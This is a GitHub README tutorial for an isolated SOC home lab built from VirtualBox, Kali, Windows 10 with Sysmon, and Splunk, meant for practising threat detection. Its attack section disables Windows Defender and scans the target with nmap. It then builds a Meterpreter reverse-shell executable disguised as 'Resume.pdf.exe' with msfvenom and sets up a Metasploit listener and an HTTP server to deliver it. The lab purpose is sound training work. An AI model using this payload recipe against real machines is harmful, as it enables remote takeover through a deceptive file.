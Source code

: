 # SOC-Home-Lab-Setup
This project is based on setting up a functional and isolated SOC home lab environment for cybersecurity learning and threat detection practice. This lab simulates attacker and defender roles using tools like Kali Linux (attacker), Windows + Sysmon (endpoint monitoring), and Splunk (log analysis and SIEM). Here we are analysing malware by deploying malware through Kali and attacking our target Windows, and then analysing the telemetry generated on Splunk.

## Requirements:
- Oracle VirtualBox – A Virtualization platform to host multiple virtual machines.

- Kali Linux – Attacker machine for penetration testing and threat simulation.

- Windows 10 VM – Target machine to simulate user activity and attacks.

- Sysmon (System Monitor) – Windows system monitoring tool to log key events.

- Splunk Free – Log analysis and SIEM tool for ingesting and analyzing Sysmon logs.

## Steps:
### Step 1: Install VirtualBox
- Download from https://www.virtualbox.org

- Install on your host OS (Windows/Linux/macOS)

Here we are using Windows OS as our host machine.

### Step 2: Download the ISO images and tools.

#### Windows 10 VM:

- Install Windows 10 ISO (https://www.microsoft.com/en-ca/software-download/windows10)
- Click on Create Windows 10 installation media and download the ISO image.
- Enable the network adapter in NAT/Host-only mode for isolation

#### Kali Linux VM:

- Download ISO from https://www.kali.org
- To unzip the Kali Linux file, download 7-Zip (https://7-zip.org).
- Basic setup with networking enabled

#### 
  
#### Install Splunk Enterprise(Free Edition)

- Install on the Windows VM.

### Step 3: Creating Virtual Machines
#### For Windows
- Open Oracle VM and click on *New*, and select the folder you want to store the file.
- Name the machine as demo and select the ISO image downloaded.
- For Hardware, set the base memory up to 4 GB and 1 CPU, click *Next*.
- For Virtual Hard disk set to 50 GB, click *Finish*
- To power on the Windows machine, click *Start* and install Windows 10.
#### For Kali Linux
- After extracting the files to the desired folder, click on the  Kali Linux Vbox extension file.
- The machine will be automatically imported into our virtual box.
- To log in to the Kali machine, enter the default credentials *"username=kali,password=kali"*

### Step 4: Install Sysmon on Windows 10 VM
- Once the test machine is running, open a web browser and go to https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
- Download Sysmon from Microsoft Sysinternals and extract it to a folder.
- Download the configuration file from https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml
- Open the PowerShell, run as an administrator.
- To be in the same folder, copy the folder path and paste it into PowerShell.
- Install using the below command

        .\Sysmon64.exe -i .\sysmonconfig.xml
  
### Step 5: Install Splunk Enterprise on Windows 10 VM
- Download Splunk Enterprise Free Edition from https://splunk.com
- Click on the downloaded file and select the local system, and click Next.
- Create your username and password and click Install.
- Now Splunk will be installed on your local host on port 8000.

 #### To add data to Splunk
 - Log in with your username and password.
 - Select *Add Data-> Monitoring(to monitor event logs)-> Local Event Logs*.
 - Select *Application, Security, and System* for Event logs, click *Next*.
 - Input Setting->*default*, and click Submit.

### Step 6: Network Configuration
Here we are analyzing malware in our virtual machine, so to reduce the risk of infecting our host and virtual machine, configuring our network to isolate the virtual machine from the host is crucial. 
The network setting we are using here is the *Internal Network*, where the VMs are in their own network, where an IP address for each VM is assigned statically. These VMs will not have access to the internet or your LAN.

- Open VirtualBox -> select Windows 10 -> Settings -> Network -> Internal Network -> Name your network *mytest* ->ok.
- Same goes for Kali Linux.
Now the two machines are in the same network. But we have to statically assign an IP address to both machines.

#### Static IP for Windows:
- Power up the Windows
- Open Network and Internet Settings -> Change adapter settings -> Ethernet
- Right click on Ethernet -> Properties -> TCP/IPv4
- Select Use the following IP addresses
- IP Address: 192.168.20.10 , Subnet Mask: 255.255.255.0
- Default DNS and Gateway, click OK.

To check the settings, open the command prompt-> ipconfig, and you should see your new IP address.

#### Static IP for Kali Linux:
- Power up the Kali
- Right-click on Ethernet -> Edit Connections -> Wired connection -> Settings
- Select IPv4 Settings -> Method select Manual
- Addresses -> Add -> 192.168.20.11, Netmask ->24 -> Save

Open a terminal, run ifconfig, and check the IP address.

## Network Scanning with Nmap, Malware Analysis, and analysis of generated telemetry on Windows machine
Here we are using Nmap in Kali to scan the open ports available on Windows, and creating and analysing our own malware to observe the telemetry it generates on Windows machine.
Before deploying the malware, disable Windows Defender to establish reverse TCP connection.

#### On Kali Linux Demo
- Open terminal, enter *nmap -h*, which shows available options for nmap
- To scan Windows, enter *nmap 192.168.20.10 -Pn* to identify open ports
- Here, RDP port 3389 is open on Windows
- Now we can create malware on Kali to perform an attack on the target Windows system

##### Creation of basic malware 
- Use msfvenom to create a malware and a meterpreter reverse shell as a payload
- On Kali -> terminal -> enter msfvenom
- terminal -> msfvenom -l payloads, which gives a list of payloads
- Here we are using *windows/x64/meterpreter_reverese_tcp*
- In the terminal, enter
  
           msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.20.11 lport-4444 -f exe -o Resume.pdf.exe
 Here we are specifying Meterpreter to connect back to the host through reverse TCP by mentioning the host IP and Port, and specifying the file format, i.e., exe and file output Resume.pdf.exe

 - Now the Resume.pdf.exe file is created.

To listen to the port we have configured, in our malware, we need a handler, so open *Metasploit*.
- terminal -> msfconsole
- msf -> use exploit/multi/handler
- Change the payload from a generic to a configured payload.
- enter *set payload windows/x64/meterpreter/reverse_tcp*
- Type options to see the changed payload

Now, change the lhost to Kali
- Enter ***set lhost 192.168.20.11***
  
Now we can start the handler
- Enter *exploit*
and listen in, and wait for the test machine to download and execute our malware.

For our test machine to download the malware, we have to set the HTTP server using Python in Kali
- be in the same directory as our malware
- terminal -> python3 -m http.server 9999 (use a port that is not in use)

This allows the test machine to act as a Kali machine and start downloading the malware.












